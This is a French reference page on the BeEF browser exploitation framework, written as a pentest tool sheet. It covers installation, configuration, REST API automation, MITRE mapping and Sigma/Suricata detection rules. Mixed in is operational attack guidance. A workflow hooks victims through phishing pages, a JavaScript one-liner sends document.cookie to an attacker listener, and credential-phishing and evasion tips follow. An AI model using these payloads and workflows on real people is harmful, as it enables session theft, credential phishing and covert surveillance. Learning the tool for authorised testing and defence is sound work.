

# 🕷️ BeEF (Browser Exploitation Framework) — Le post-exploitation via le navigateur

> [!info] **En 1 phrase**
> BeEF est un framework de test d'intrusion qui transforme le navigateur d'une victime en point d'ancrage d'attaque en injectant une "hook" JavaScript, permettant de lancer des modules d'exploitation, d'exfiltrer des données et de pivoter vers le réseau interne.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | BeEF (Browser Exploitation Framework) |
| Description | Framework de post-exploitation orienté navigateur : injection d'une hook JavaScript, modules d'exploitation navigateur, exfiltration, pivoting réseau |
| Catégorie | 🎭 Social Engineering & Phishing |
| Sous-catégorie | Exploitation navigateur / Drive-by |
| Type d'outil | Framework (serveur + interface web + REST API) |
| Licence | BSD-3-Clause |
| Open source / propriétaire | Open source |
| Langage(s) | JavaScript (~63 %), Ruby (~30 %), CSS, HTML |
| Développeur / organisation | Wade Alcorn (fondateur) / The BeEF Project |
| Dépôt officiel | https://github.com/beefproject/beef |
| Documentation officielle | https://github.com/beefproject/beef/wiki |
| Date de création | 23 novembre 2011 |
| État du projet | actif |
| Dernière version connue | v0.6.0.0 (2025-10-24) |
| Systèmes compatibles | Linux, macOS, Windows (Ruby 3.0+, Node.js requis) |

> [!note] Pour vérifier / compléter
> BeEF est préinstallé sur Kali (`beef-xss`). La version courante se vérifie dans le fichier `config.yaml` (`beef.version`) et sur la page Releases du dépôt.

---

## 🎯 Concept

BeEF ne s'attaque pas à la machine mais au **navigateur** : plutôt que de chercher à exploiter le système d'exploitation, il transforme le navigateur de la victime en point d'ancrage. Le principe repose sur la **hook** : une charge JavaScript (`hook.js`) chargée depuis le serveur BeEF. Dès qu'une victime ouvre une page qui l'inclut (page clonée, mail de phishing, XSS, publicité malveillante), son navigateur initie une connexion persistante — par polling HTTP ou **WebSocket** — vers le serveur de contrôle BeEF (port 3000). Le navigateur est alors dit *hooked* et apparaît dans le panneau d'administration `/ui/panel`.

Une fois le navigateur contrôlé, l'attaquant peut : profiler la machine (OS, navigateur, plugins, résolution, IP interne, géolocalisation), exécuter des dizaines de **modules** (vol de cookies, keylogging, capture webcam via `getUserMedia`, fausses pages de phishing *Pretty Theft*, fake update navigateur, clickjacking), et lancer des modules **réseau** (ping sweep, port scan via WebRTC) pour cartographier le réseau interne depuis le navigateur. BeEF s'articule naturellement avec la suite d'ingénierie sociale : il se place typiquement après l'ouverture d'un lien de phishing (en combinaison avec [[Outil - SET|SET]], [[Outil - GoPhish|GoPhish]] ou une page clonée) pour transformer le maillon humain en foothold offensif.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Hook (`hook.js`) | Charge JavaScript injectée dans une page contrôlée par l'attaquant ; le navigateur qui l'exécute se connecte au serveur BeEF |
| Polling / WebSocket | La communication victime-serveur se fait en continu (XHR périodique ou WebSocket), de sorte que le serveur reste à jour sans interaction |
| Zombie / hooked browser | Navigateur contrôlé, identifiable par un ID de session unique (`session_id`) et un `token` anti-CSRF |
| Module | Unité d'attaque exécutée à distance dans le navigateur de la victime (commandes JS dans une sandbox) |
| Catégories de modules | `Browser Exploitation`, `Host`, `Network`, `Persistence`, `Phishing`, `Social Engineering`, `XSS`, `Exploits`, `Exfiltration` |
| REST API | API HTTP (`/api`) exposant hooks, sessions, modules et commandes ; s'authentifie par token ou basic auth |
| `getUserMedia` | API navigateur permettant (si la permission est accordée) la capture webcam/micro — modules BeEF qui l'utilisent échouent silencieusement sans permission |
| Pivoting navigateur | Modules réseau (WebRTC, XHR cross-origin) utilisés pour sonder le réseau interne depuis le poste victime |

---

## 🛠️ Installation

### Kali Linux / Debian / Ubuntu

```bash
sudo apt update && sudo apt install -y beef-xss
sudo beef-xss
```

### Depuis les sources (méthode officielle)

```bash
# Prérequis : Ruby 3.0+, Node.js, libsqlite3-dev, build-essential
sudo apt install -y ruby-full nodejs npm libsqlite3-dev build-essential
git clone https://github.com/beefproject/beef.git
cd beef
./install
./beef
```

### Avec Bundler

```bash
gem install bundler
cd beef
bundle install
./beef
```

### Docker

```bash
docker run -it -p 3000:3000 -p 6789:6789 -p 61985:61985 -p 61986:61986 beefproject/beef:0.6.0.0
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - Ruby ≥ 3.0 et Node.js sont obligatoires depuis la refonte de l'interface ; les anciens paquets Kali peuvent référencer une version obsolète.
> - Les ports 3000 (interface/hook), 6789 (WebSocket démonstration) et 61985/61986 (agents réseau) doivent être libres.
> - Le compte admin par défaut `beef:beef` doit être changé immédiatement dans `config.yaml`.

---

## ⚙️ Configuration

Toute la configuration se fait dans le fichier **`config.yaml`** à la racine du dépôt (démarrage `./beef`). Les paramètres sont regroupés par section `beef:`, `extension:`, `database:`, `http_server:` et `client:`. Pour un démarrage non interactif, utiliser `./beef --non-interactive`.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `beef.http.server_port` | Port de l'interface web et de la hook | entier | 3000 par défaut | `server_port: 3000` |
| `beef.credentials.user` / `.passwd` | Compte admin du panneau | chaîne | Doit être changé | `user: "admin"` |
| `beef.database.name` | Fichier SQLite des sessions | chaîne | `/root/.beef/beef.db` | `name: beef.db` |
| `beef.autorun.enabled` | Exécute un module automatiquement à la connexion d'un zombie | true/false | Déploie le profil initial | `enabled: false` |
| `beef.extension.network.enable` | Active les modules réseau (scan interne) | true/false | Port scan depuis le navigateur | `enable: true` |
| `beef.http.web_server.allow_referrer` | Autorise les requêtes avec en-tête `Referer` étranger | true/false | Anti-anti-leech | `allow_referrer: false` |
| `beef.hooks.blacklist_domains` | Domaines dont les hook sont désactivées | liste | Évite de hooker des domaines interdits | `blacklist_domains: []` |
| `beef.phishing.friendly_detection` | Page d'avertissement en cas de détection | true/false | Pédagogique | `friendly_detection: true` |

Exemple minimal de `config.yaml` pour un usage lab :

```yaml
beef:
    version: '0.6.0.0'
    credentials:
        user: "admin"
        passwd: "Tartempion2024!"
    database:
        name: beef.db
    http_server:
        server_ip: 0.0.0.0
        server_port: 3000
    client:
        use_websockets: true
    extension:
        network:
            enable: true
```

> [!note] À vérifier
> Les noms de clés exacts varient légèrement entre les versions 0.5.x et 0.6.x — valider avec `./beef --help` et le `config.yaml` livré.

---

## 🏗️ Architecture interne

BeEF est construit en **Ruby** (côté serveur) et **JavaScript** (côté client et interface). À l'exécution :

- **Serveur web (WEBrick/Thin)** sur le port 3000 : sert le panneau d'administration, la hook (`hook.js`) et l'API REST.
- **Branche JavaScript (core/main/client/)** : la hook embarquée dans le navigateur, le gestionnaire de modules (chaque module est une commande JS exécutée dans le contexte de la page), le transport WebSocket.
- **Core serveur (core/main/server/)** : gestion des sessions (bases SQLite), des modules, de l'autorun, des règles de hooking et de l'API.
- **Extensions** : `network` (modules réseau via WebRTC), `proxy`, `socialengineering`, `ipec` (HTTP Tabnabbing), `geoip`, `dns`, `restfulapi`, `notifications`.
- **REST API** : endpoints `/api/hooks`, `/api/sessions`, `/api/modules`, `/api/commands` ; authentification par token (`/api/token`) ou HTTP Basic.

Flux d'une attaque type : la page piégée charge `hook.js` → le navigateur envoie un JSON `heartbeat` contenant OS, navigateur, plugins, résolution, IP interne, localStorage → le serveur l'enregistre en base et expose la session au panneau → l'opérateur choisit un module → le serveur envoie la commande → le client JS l'exécute → le résultat revient dans la console du module.

---

## ⌨️ Commandes

### Commandes principales

```bash
sudo ./beef --non-interactive
# Interface : http://localhost:3000/ui/panel
# Hook à injecter : http://IP:3000/hook.js
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `./beef` | Démarre le serveur interactif | Prompt « BeEF started » + URL du panneau |
| `./beef --non-interactive` | Démarre en mode service (sans prompt) | Serveur en arrière-plan |
| `./beef -x` | Ouvre le panneau dans le navigateur par défaut | Page de login du panel |
| `./beef -p 3001` | Change le port de l'interface | Panel sur le port choisi |
| `./beef -u admin` | Force le nom d'utilisateur admin | Outrepasse `config.yaml` |
| `./beef -w motdepasse` | Force le mot de passe admin | Outrepasse `config.yaml` |
| `./beef --help` | Affiche toutes les options | Liste des drapeaux |
| `./beef --update` | Met à jour BeEF depuis Git | Pull + bundle install |

### Commandes avancées

```bash
# Démarrer sans prompt et logguer la sortie
sudo ./beef --non-interactive 2>&1 | tee /var/log/beef.log

# Changer le port pour éviter un conflit avec Apache
sudo ./beef -p 3001 --non-interactive

# Servir la hook derrière un reverse proxy (Apache) :
# /hook.js -> http://127.0.0.1:3000/hook.js (mod_proxy)
```

### Modules BeEF notables

| Catégorie | Module | Effet |
|---|---|---|
| Browser Exploitation | Webcam / Microphone Capture | Capture via `getUserMedia` (permission requise) |
| Browser Exploitation | Clipboard Data | Lit / remplace le presse-papiers |
| Browser Exploitation | Misuse User Input / Key Logger | Keylogging de l'onglet |
| Browser Exploitation | Man-In-The-Browser | Réécriture du DOM de la page en cours |
| Host | Get System Info | OS, navigateur, plugins, résolution |
| Host | Get Internal IP | IP interne via WebRTC |
| Network | Ping Sweep | Sondage d'hôtes du réseau interne |
| Network | Port Scanner | Scan de ports depuis le navigateur |
| Persistence | Confirm Login Dialog | Faux dialogue de connexion persistant |
| Phishing | Pretty Theft | Fausse page de login (Facebook, Gmail, etc.) |
| Phishing | Fake Notification Bar | Barre « Update Chrome/Firefox » |
| Social Engineering | Clickjacking | Iframe invisible + déclenchement de clic |
| XSS | Beef Tabnabbing | Réécriture de l'onglet au focus |
| Exfiltration | Email Exfiltrate | Envoi du contenu par email |
| Exploits | MS10-002 / divers CVE | Exploitation de vulnérabilités navigateur |

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `--non-interactive` | Démarrage sans prompt | `./beef --non-interactive` | Basic |
| `-x` | Ouvre le panel automatiquement | `./beef -x` | Basic |
| `-p <port>` | Port de l'interface/hook | `./beef -p 3001` | Basic |
| `-u <user>` | Utilisateur admin | `./beef -u admin` | Basic |
| `-w <password>` | Mot de passe admin | `./beef -w Tartempion2024!` | Basic |
| `--help` | Aide | `./beef --help` | Basic |
| `--update` | Mise à jour via Git | `./beef --update` | Intermediate |
| `--version` | Affiche la version | `./beef --version` | Intermediate |
| `--allow_root` | Autorise le lancement en root | `sudo ./beef --allow_root` | Advanced |
| `-b <ip>` | Bind sur une IP précise | `./beef -b 10.10.20.15` | Advanced |
| `--update-modules` | Re-synchronise les modules | `./beef --update-modules` | Advanced |

> [!tip] Options les plus utiles au quotidien
> `--non-interactive` (service), `-p` (changer de port), `-u/-w` (forcer les identifiants admin sans toucher au YAML), `--allow_root` (nécessaire sur certains setups Docker).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# 1) Démarrer BeEF
sudo ./beef --non-interactive
# 2) Créer une page de test qui charge la hook
echo '<script src="http://10.10.20.15:3000/hook.js"></script>' > /var/www/html/piege.html
# 3) Ouvrir http://10.10.20.15/piege.html dans un navigateur de test
# 4) Vérifier l'apparition du zombie dans le panel (http://localhost:3000/ui/panel)
```

### Intermediate

```bash
# Serveur + panneau sur une IP d'écoute dédiée
sudo ./beef -b 10.10.20.15 -p 3000 --non-interactive
# Tester la hook avec curl : le serveur répond 200 et sert le JS
curl -s -o /dev/null -w "%{http_code}\n" http://10.10.20.15:3000/hook.js
```

### Advanced

```bash
# Activer l'autorun d'un module de profiling sur le premier zombie :
# dans config.yaml : autorun.enabled: true, autorun.module: "get_os"
# puis redémarrer BeEF. Le premier navigateur hooké sera profilé seul.
```

### Expert

```bash
# Utiliser la REST API pour lister les hooks
TOKEN=$(curl -s -X POST -d "username=admin&password=Tartempion2024!" http://localhost:3000/api/token | python3 -c "import sys,json;print(json.load(sys.stdin)['token'])")
curl -s -H "Content-Type: application/json" -H "X-XSRF-TOKEN: $TOKEN" \
     -b "beefhook=$TOKEN" http://localhost:3000/api/hooks
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Étape 1 — Lancer BeEF et ouvrir le panel.**
   ```bash
   sudo ./beef
   # http://localhost:3000/ui/panel — login admin/beef (défaut, à changer !)
   ```
2. **Étape 2 — Servir la hook** — servir le fichier `hook.js` (par exemple via Apache/Nginx ou directement via BeEF `http://IP:3000/hook.js`) sur une page de phishing.
3. **Étape 3 — Faire cliquer la victime** — envoyer le lien (email, QR code, page clonée). Dès le chargement, le navigateur apparaît dans le panneau.
4. **Étape 4 — Profiler le navigateur** — l'onglet *Details* affiche OS, navigateur, plugins, localisation (si autorisée).
5. **Étape 5 — Lancer des modules** — onglet *Commands*, choisir un module (ex : `Browser Exploitation > ClipBoard`, `Webcam`, `XSS`) et exécuter sur le navigateur ciblé.
6. **Étape 6 — Exfiltrer les données** — les résultats (cookies, logs de frappe, captures) apparaissent dans la console du module.

---

## 🎬 Scénarios avancés

### Scénario 1 : Exfiltration de cookies et de session

```bash
# Dans le panel, navigateur victime → Commands → "Steal Cookies"
# Module : "Browser Exploitation > Misplace User Input" ou "Cookies"
# Le cookie de session volé peut être rejoué pour un hijack de session.
# Astuce : coupler avec un script JS qui poste les cookies sur un serveur HTTP.
```

```javascript
// Variante : injecter un payload XSS qui exfiltre vers votre listener
new Image().src = 'http://10.10.20.15:4444/?c=' + document.cookie;
```

### Scénario 2 : Attaque de phishing via injection de page

```bash
# Commands → Browser Exploitation → "Pretty Theft"
# Choisir le site à imiter (Ex : Facebook), BeEF injecte une fausse page de
# connexion dans le navigateur de la victime et capture les identifiants.
```

### Scénario 3 : Reconnaissance du poste victime avant exploitation

```bash
# Commands → Host → "Get System Info" : OS, architecture, plugins, résolution
# Commands → Host → "Get Internal IP" : détection de l'IP réseau interne
# Commands → Exploits → "Google Glass / CVE" si le navigateur est vulnérable
# Ces infos guident le choix du module suivant (ex. pivoter si IP interne 10.x)
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Drive-by : page clonée ou XSS chargeant `hook.js` (T1189) |
| Exécution | Modules JS exécutés dans le navigateur (T1059.007) |
| Credential Access | Keylogger, Pretty Theft, vol de cookies de session (T1539) |
| Collection | Exfiltration de données locales, presse-papiers, captures caméra |
| Reconnaissance | Profiling navigateur/OS, IP interne, scan réseau via WebRTC |
| Lateral Movement | Pivoting : modules réseau pour sonder/pivoter le réseau interne |
| Post-exploitation | Persistance dans l'onglet, faux dialogues, re-hook après navigation |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Drive-by Compromise | T1189 | La hook est servie via une page compromettée / un lien cliqué | Règles proxy bloquant les scripts exotiques, sandbox navigateur | Sensibilisation, sandboxing navigateur, filtrage web |
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Le lien de phishing amène la victime sur la page hookée | Analyse des URL, sandbox d'emails | SPF/DKIM/DMARC, filtrage de liens |
| Execution | Command and Scripting Interpreter: JavaScript | T1059.007 | Tous les modules BeEF sont du JS exécuté dans le navigateur | Détection de JS inhabituel dans les pages internes | CSP stricte, désactivation des scripts non essentiels |
| Credential Access | Steal Web Session Cookie | T1539 | Modules de vol de cookies rejoués ensuite | Détection de replay de session (IP/U-A anormaux) | Cookies `HttpOnly`, rotation de session |
| Discovery | Network Service Discovery | T1046 | Modules « Port Scanner » / « Ping Sweep » via WebRTC | Trafic WebRTC sortant anormal | Restriction WebRTC par politique, contrôle des permissions |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> BeEF couvre principalement T1189 (drive-by), T1059.007 (JS) et T1539 (vol de cookies de session).

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Requêtes continues vers une IP/domaine inconnu depuis le navigateur | Heartbeat XHR/WebSocket réguliers (`/hook.js`, `/d/e/heartbeat`) |
| Connexions WebSocket persistantes sortantes | Canal de contrôle BeEF (port 3000 ou 6789) |
| JS de type `hook.js` chargé depuis une IP externe | CSP violée, script non autorisé dans une page interne |
| Injection de contenu étranger dans une page légitime | Modules de phishing/clickjacking actifs |
| Périphériques demandant l'accès caméra/micro | Modules Webcam/Micro (permission accordée) |
| Trafic WebRTC anormal (STUN/TURN vers hôtes inconnus) | Modules réseau / scan interne |
| Processus `beef` / `ruby` sur un poste | Détection EDR/processus du framework lui-même |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — process_creation Linux : lancement de beef
title: BeEF Framework Execution
id: 0d4e5f6a-7b8c-9d0e-1f2a-3b4c5d6e7f80
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith:
            - '/beef'
        CommandLine|contains:
            - 'non-interactive'
            - 'hook'
    condition: selection
falsepositives:
    - Penetration testing lab usage
level: high
```

```bash
# Suricata/Snort — détection du heartbea t BeEF dans le trafic HTTP
alert http any any -> any any (msg:"ET BeEF hook heartbeat"; flow:to_server,established; \
  http.uri; content:"/d/e/heartbeat"; nocase; classtype:attempted-recon; sid:20260001; rev:1;)
```

---

## 🤖 Automatisation

```bash
# Bash — pipeline complet : lancer BeEF, attendre des zombies, dump des hooks
sudo ./beef --non-interactive &
sleep 20
TOKEN=$(curl -s -X POST -d "username=admin&password=Tartempion2024!" http://localhost:3000/api/token | python3 -c "import sys,json;print(json.load(sys.stdin)['token'])")
curl -s -H "X-XSRF-TOKEN: $TOKEN" -b "beefhook=$TOKEN" http://localhost:3000/api/hooks \
  | python3 -m json.tool > zombies.json
```

```python
# Python — consommer la REST API BeEF pour piloter les zombies
import json
import requests

URL = "http://10.10.20.15:3000"
s = requests.Session()
s.auth = ("admin", "Tartempion2024!")
token = s.post(f"{URL}/api/token", data={"username": "admin", "password": "Tartempion2024!"}).json()["token"]
s.headers.update({"X-XSRF-TOKEN": token, "Content-Type": "application/json"})
s.cookies.set("beefhook", token)

hooks = s.get(f"{URL}/api/hooks").json().get("hooked-browsers", {})
for sid in hooks.get("online", {}):
    print("Zombie :", sid, hooks["online"][sid]["session"])
```

---

## 📤 Output et parsing

BeEF expose tout par sa **REST API** (JSON) : `hooks`, `sessions`, `modules`, `commands`. La sortie des modules apparaît aussi dans la console du panneau et peut être rapatriée via `/api/modules/{id}/results`.

```bash
# Lister les modules avec leur ID
curl -s -H "X-XSRF-TOKEN: $TOKEN" -b "beefhook=$TOKEN" http://localhost:3000/api/modules \
  | jq '.modules | to_entries[] | {id: .key, name: .value.name}'
```

> [!note] À vérifier
> Le schéma exact des réponses dépend de la version de l'API (0.5.x vs 0.6.x). Tester avec `curl` avant de figer un pipeline.

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - SET]] — génération de la page / du payload qui sert la hook
- [[Outil - GoPhish]] — campagne de phishing dont la landing page charge `hook.js`
- [[Outil - Evilginx2]] — proxy AiTM pouvant servir la hook après capture de session
- [[Outil - SocialFish]] / [[Outil - CredSniper]] — pages clonées à compléter avec le hook BeEF
- [[Outil - Metasploit]] — modules réseau / C2 complémentaires pour pivoter
- [[Outil - mitmproxy]] — injection systématique de `hook.js` dans le trafic HTTP
- [[Outil - Nmap]] — confirmation externe des ports ouverts découverts via modules réseau

```text
Page clonée → hook.js → BeEF (3000) → modules → exfiltration / pivoting
SET/GoPhish → lien phish → victime → BeEF panel → session volée
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Evilginx2]] | Proxy AiTM, vol de session réel, bypass 2FA | Nécessite domaine + certificat | Phishing 2FA avancé |
| [[Outil - Modlishka]] | Réplication de site entière, multi-domaine | Lourd, config complexe | Tests AiTM à grande échelle |
| [[Outil - Metasploit]] | Exploitation système complète, Meterpreter | Pas orienté navigateur | Post-exploitation machine |
| BetterJS / XSStrike (payloads) | Payloads XSS validés par contexte | Pas de C2 navigateur | Préparation d'injection XSS |
| Hook-based C2 custom (Cobalt Strike) | Contrôle total, furtivité | Payant / licence | Red team corporatif |

> **Quand utiliser BeEF plutôt qu'Evilginx2 ?** Quand l'objectif est le **post-exploitation du navigateur** (keylog, webcam, exfil, pivoting) et non le vol de session : BeEF garde un canal de contrôle persistant avec la victime, là où Evilginx2 ne capte qu'une session rejouable.

---

## ⚡ Performance

- BeEF est léger pour de petits volumes : un serveur de lab gère des dizaines de zombies sans charge notable.
- Le coût principal est la **bande passante des heartbeats** : en polling HTTP, chaque zombie génère une requête toutes les ~5 s par défaut ; passer à WebSocket réduit fortement le volume.
- Les modules réseau (scan WebRTC) consomment du CPU navigateur chez la victime et peuvent être détectés.
- La base SQLite devient un goulot avec des centaines de milliers de commandes loggées : purger régulièrement ou passer à MySQL/MariaDB (support via `database.name`).

> [!note] À vérifier
> Pas de benchmarks officiels publiés ; ces ordres de grandeur proviennent de déploiements de lab documentés dans la communauté.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : le panel ne répond pas sur le port 3000

- **Cause** : un autre service occupe le port, ou BeEF est bindé sur `127.0.0.1` alors que le panel est requis depuis une autre machine.
- **Solution** : vérifier `ss -tlnp | grep 3000`, changer de port avec `-p`, binder sur `0.0.0.0` dans `config.yaml` (ou `-b`).
- **Vérification** : `curl -s -o /dev/null -w "%{http_code}\n" http://localhost:3000/ui/panel`.

#### Problème : aucun zombie n'apparaît après ouverture de la page

- **Cause** : `hook.js` chargé en HTTP depuis une page HTTPS (mixed content) ou la page teste une IP qui ne pointe pas vers BeEF.
- **Solution** : servir le clone en HTTPS ou forcer la page de test en HTTP ; vérifier l'URL de la hook.
- **Vérification** : console navigateur (F12) → erreurs de chargement réseau.

#### Problème : erreur Ruby « sqlite3 » ou « eventmachine »

- **Cause** : dépendances natives manquantes ou Ruby trop récent/ancien.
- **Solution** : `sudo apt install libsqlite3-dev`, puis `bundle install` ; sinon utiliser l'image Docker.
- **Vérification** : `ruby -v && node -v`.

---

## 🔐 Sécurité de l'outil

- **Identifiants par défaut** : `beef:beef` doit être remplacé dans `config.yaml`, sinon le panneau est trivialement prenable.
- **Exposition réseau** : le panel et la REST API ne doivent **jamais** être exposés sur Internet ; les restreindre au réseau d'engagement.
- **Transport** : activer le TLS si l'interface est accessible à distance (reverse proxy + certificat) ; le trafic par défaut est en clair.
- **CSP/anti-CSRF** : BeEF utilise un token XSRF ; l'oublier casse l'API mais protège le panel.
- **Confidentialité** : les données exfiltrées (cookies, frappes, captures) sont sensibles — restreindre leur manipulation au périmètre autorisé et les purger en fin de mission.
- **Légal** : hooker un navigateur sans autorisation écrite est illégal (accès frauduleux à un système de traitement automatisé de données). Cadre de test uniquement.

---

## ⚠️ Limitations

- Modules d'exploitation limités aux navigateurs/versions vulnérables : la plupart échouent sur un navigateur à jour.
- La session est perdue dès que la victime ferme l'onglet (pas de persistance machine).
- Les permissions navigateur (caméra, micro, notifications) bloquent silencieusement plusieurs modules.
- Pas d'accès système natif : le post-exploitation se limite à ce que le navigateur sait faire.
- Les modules réseau sont bridés par les politiques WebRTC/CSP des navigateurs modernes.
- BeEF ne fournit pas de mécanisme d'évasion du SOC : le trafic heartbeat est aisément détectable.

---

## 📋 Cheatsheet

```bash
# Démarrer en mode service
sudo ./beef --non-interactive

# Démarrer sur un port précis avec identifiants forcés
sudo ./beef -p 3001 -u admin -w Tartempion2024!

# Page de test qui charge la hook
echo '<script src="http://10.10.20.15:3000/hook.js"></script>' > /var/www/html/piege.html

# Vérifier que la hook est servie
curl -s -o /dev/null -w "%{http_code}\n" http://10.10.20.15:3000/hook.js

# Obtenir un token API
curl -s -X POST -d "username=admin&password=Tartempion2024!" http://localhost:3000/api/token

# Lister les zombies
curl -s -H "X-XSRF-TOKEN: $TOKEN" -b "beefhook=$TOKEN" http://localhost:3000/api/hooks

# Mise à jour
./beef --update
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Post-exploitation du navigateur : hook JS, modules d'attaque, exfiltration, pivoting |
| **Quand l'utiliser ?** | Après l'ouverture d'un lien de phishing (drive-by), pour exploiter le maillon humain |
| **Commande principale** | `sudo ./beef --non-interactive` |
| **Alternative principale** | [[Outil - Evilginx2]] (vol de session) / [[Outil - Metasploit]] (système) |
| **Concepts importants** | Hook, hooked browser, modules, REST API, WebSocket, `getUserMedia` |
| **Liens associés** | [[Outil - SET]] · [[Outil - GoPhish]] · [[Outil - Evilginx2]] · [[Outil - SocialFish]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Requêtes continues vers une IP/domaine inconnu depuis le navigateur | EDR réseau et inspection du trafic DNS/HTTP |
| Injection de contenu étranger dans une page légitime | CSP strict, XSS auditor, isolation des sites |
| Page de phishing demandant de cliquer pour « vérifier le compte » | Sensibilisation, liens anti-phishing |
| Connexions WebSocket persistantes sortantes | Règles de firewall sortant et proxy avec inspection TLS |
| Périphériques demandant l'accès caméra/micro | Gérer les permissions navigateur, activer les prompts |
| JS de type `hook.js` chargé depuis une IP externe | CSP stricte, SRI, blocage des scripts non autorisés |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Un navigateur **reste hooked** tant que l'onglet ou la page est ouvert : gardez une page de garde ouverte pour maximiser la fenêtre d'attaque.
> - Utilisez les modules **Reconnaissance** pour récupérer adresse IP, géolocalisation (si autorisée) et présence de plugins vulnérables avant de choisir un exploit.
> - Couplez BeEF avec un proxy (mitmproxy) ou une page clonée (SET) pour hooker plus de victimes en une campagne.
> - Activez WebSocket dans `config.yaml` : les heartbeats sont moins voyants que le polling HTTP.

> [!warning] ⚠️ **Pièges**
> - Les modules d'exploitation ne fonctionnent que sur des navigateurs/versions vulnérables : tester dans un lab à jour avant une campagne.
> - L'interface par défaut `admin/beef` doit être **changée** (fichier `config.yaml`) sinon elle est trivialement exploitable.
> - Sans autorisation caméra/micro (permission du navigateur), les modules de capture échouent silencieusement.
> - BeEF ne donne pas un accès système : si la victime ferme l'onglet, la session est perdue.

---

## 📚 References

### Official

- Site officiel : https://beefproject.com
- Dépôt GitHub : https://github.com/beefproject/beef
- Wiki officiel : https://github.com/beefproject/beef/wiki
- Releases : https://github.com/beefproject/beef/releases
- Config d'exemple : https://github.com/beefproject/beef/blob/master/config.yaml

### Security references

- MITRE ATT&CK T1189 — Drive-by Compromise : https://attack.mitre.org/techniques/T1189/
- MITRE ATT&CK T1059.007 — JavaScript : https://attack.mitre.org/techniques/T1059/007/
- MITRE ATT&CK T1539 — Steal Web Session Cookie : https://attack.mitre.org/techniques/T1539/
- OWASP — Session Management : https://owasp.org/www-community/attacks/Session_fixation

### Community

- Wade Alcorn — The Browser Exploitation Framework (Black Hat 2010) : https://www.blackhat.com/presentations/bh-usa-10/Alcorn_Wade/BHUSA10-Alcorn-BeEF-Slides.pdf
- Write-ups BeEF sur Penetration Testing Lab : https://pentestlab.blog

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - SET|SET]] · [[Outil - Evilginx2|Evilginx2]] · [[Outil - GoPhish|GoPhish]] · [[Outil - SocialFish|SocialFish]] · [[Outil - Metasploit|Metasploit]]
